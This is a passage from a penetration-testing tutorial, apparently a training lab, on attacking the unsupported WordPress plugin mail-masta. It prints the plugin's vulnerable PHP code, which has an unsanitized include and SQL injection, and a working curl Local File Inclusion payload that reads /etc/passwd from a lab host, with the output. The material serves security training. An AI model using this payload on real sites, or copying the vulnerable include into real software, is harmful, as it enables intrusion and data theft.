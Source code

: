 Note: We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

#### Vulnerable Plugins - mail-masta

Let's look at a few examples. The plugin [mail-masta](https://wordpress.org/plugins/mail-masta/) is no longer supported but has had over 2,300 [downloads](https://wordpress.org/plugins/mail-masta/advanced/) over the years. It's not outside the realm of possibility that we could run into this plugin during an assessment, likely installed once upon a time and forgotten. Since 2016 it has suffered an [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

Let's take a look at the vulnerable code for the mail-masta plugin.

```php
<?php

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>

```

As we can see, the `pl` parameter allows us to include a file without any type of input validation or sanitization. Using this, we can include arbitrary files on the webserver. Let's exploit this to retrieve the contents of the `/etc/passwd` file using `cURL`.

```shell
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
```